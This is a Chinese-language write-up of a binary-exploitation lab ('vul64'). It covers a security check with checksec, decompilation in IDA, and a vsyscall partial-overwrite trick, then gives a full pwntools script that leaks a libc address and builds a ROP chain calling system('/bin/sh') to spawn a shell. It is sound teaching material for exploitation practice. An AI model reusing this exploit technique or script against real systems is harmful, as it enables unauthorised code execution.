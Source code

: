 # Lab1 - vul64

## 环境配置

在 Windows 11 PC 上安装 IDA 7.7，配合服务器 Ubuntu 20.04.5 LTS 64 位，使用 gdb 调试。

## 安全措施检查

使用`checksec`检查目标程序的安全性，

```shell
checksec --format=json --file=./vul64/vul64
```

得到如下结果，

```json
{ "./vul64/vul64": { "relro":"full","canary":"yes","nx":"yes","pie":"yes","rpath":"no","runpath":"no","symbols":"no","fortify_source":"yes","fortified":"0","fortify-able":"2" } }
```

发现其开启了PIE，因此所有函数的地址都经过了随机化处理，我们需要找到正确的函数位置。

## 分析过程

使用 IDA 打开 vul64 可执行程序，使用 F5 将可执行程序 decompile 成 C Pseudocode. 能在左侧 Functions 栏中看到各个函数的信息，找到其中的 `main()` 函数作为入口。

```c
void __fastcall main(int a1, char **a2, char **a3)
{
  char buf[64]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v5; // [rsp+108h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  write(1, "baby, hack meeeeeeee!\n", 0x17uLL);
  read(0, buf, 0x140uLL);
  __asm { jmp     qword ptr [rax] }
}
```

我们可以发现这个 `main` 函数其实不能正常工作，而我们需要关注的则是最后一行汇编代码，我们需要将我们想要执行的指令通过 `vsyscall` 中的 `return` 指令引入 `RIP` 寄存器，从而实现任意代码执行。

在 `pwndbg` 工具中，我们对 `main`函数中的这一行汇编代码进行断点设置，

```shell
b *$rebase(0x968)
```
在本地调试发现其地址如下图所示，

![0x968 Breakpoint](./assets/0x968breakpoint.png)

在 IDA 中查看其他函数的地址，发现 `sub_A2C` 函数中有较多的提示信息，因此我们需要调用到这个函数的地址，在栈中寻找以 `0x555555554A__` 的内存位置，发现可以通过覆盖 34 个字 + 修改最后 2 Bytes 为 `0x2c` 的方式覆盖为 `sub_A2C` 函数地址。
 
经过查阅资料，此处应当使用 `vsyscall` 的方式，`vsyscall` 在内存中的位置是固定的 `0xffffffffff600000`，而它存在的效果则是可以通过不断的调用压入栈帧，我们控制合适的次数，即可将我们想要执行的指令压入栈帧中，从而实现任意代码执行。

因此构造了如下恶意负载1用于执行 `sub_A2C` 函数，

```python
p64(0xffffffffff600000) * 34 + b'\x2c'
```

在执行 `sub_A2C` 函数后，我们可以发现它提供了 `write` 函数的地址，这样使得计算 `libc` 的基址变得更加容易，与 `vul32` 类似地，我们利用 `write` 计算出偏移量后，再次构造恶意负载2，用于执行 `system` 函数。

此处还有一个不同的是 64 bit 的程序会需要将 `system` 函数的参数放在 `rdi` 寄存器中，因此我们需要将 `rdi` 寄存器的值设置为 `/bin/sh` 的地址，这样才能执行 `system` 函数。

因此，在 libc 中找到 `pop rdi; ret` 的地址，为 `0x21112`.

构造的恶意负载2可获得目标机器的shell,

```python
b'A' * 0x33 + b"G" + p64(pop_addr) + p64(binsh_addr) + p64(system_addr)
```

带有注释的爆破代码如下

```python
from pwn import *

sh = process('./vul64/vul64')
# sh = remote('cssc.vul337.team', 49350) # connect to the remote server

pop_addr = 0x21112 # the address of the gadget "pop rdi; ret"

pwnlib.gdb.attach(sh)

payload = p64(0xffffffffff600000) * 34 + b'\x2c' # create the payload 1, 

vul64 = ELF('./vul64/vul64')
libc = ELF('./vul64/libc.so.6')

print(sh.recvline())
sh.send(payload)

rcvdata = sh.recvuntil('Want my flag? Keep going!') # hacked into sub_A2c

write_addr = u64(rcvdata.split(b'\n')[4]) # get the address of the gift write function
print(write_addr)

offset = write_addr - libc.symbols['write'] # calculate the offset of the libc

system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))

print(system_addr)
print(binsh_addr)

system_addr = offset + system_addr # calculate the address of the system function in libc
binsh_addr = offset + binsh_addr # calculate the address of the "/bin/sh" string in libc
pop_addr = offset + pop_addr # calculate the address of the gadget "pop rdi; ret"

print(p64(system_addr))
print(p64(binsh_addr))
print(p64(pop_addr))

payload = b'A' * 0x33 + b"G" + p64(pop_addr) + p64(binsh_addr) + p64(system_addr) # create the payload 2, used to get the shell, similar to the payload 2 in lab1/vul32/exp_vul32.py
sh.sendline(payload)

sh.recv()
sh.interactive()

```